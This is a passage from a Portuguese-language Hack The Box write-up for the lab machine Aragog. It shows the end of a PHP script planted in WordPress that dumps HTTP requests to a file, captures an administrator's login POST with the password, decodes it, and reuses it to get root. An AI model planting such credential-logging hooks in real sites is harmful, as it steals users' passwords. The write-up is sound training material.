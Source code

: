 ```<?php
			}
		}

		return $headerList;
	}
}


(new DumpHTTPRequestToFile)->execute('./dumprequest.txt');
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_login.png)

Agora é esperar o maluco logar, quando ele logar vai ir a senha dele pro *dumprequest.txt*

> pwd=%21KRgYs%28JFO%21%26MTr%29lf&wp-submit=Log+In&testcookie=1&log=Administrator&redirect_to=http%3A%2F%2F127.0.0.1%2Fdev_wiki%2Fwp-admin%2F

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_dump1.png)

Está encodado, então devemos realizar o decoder dele, vou usar o *BurpSuite* mesmo, pq já ta aberto, mas pô, tem sites que fazem isso na internet

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_senha.png)

> pwd=!KRgYs(JFO!&MTr)lf

### Virando root!

Possivelmente como ele é o "administrador" deve usar essa mesma senha para login como root, então viramos root com ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_priv.png)

## Pegamos flag de user e root

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_user.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-aragog/A_root.png)

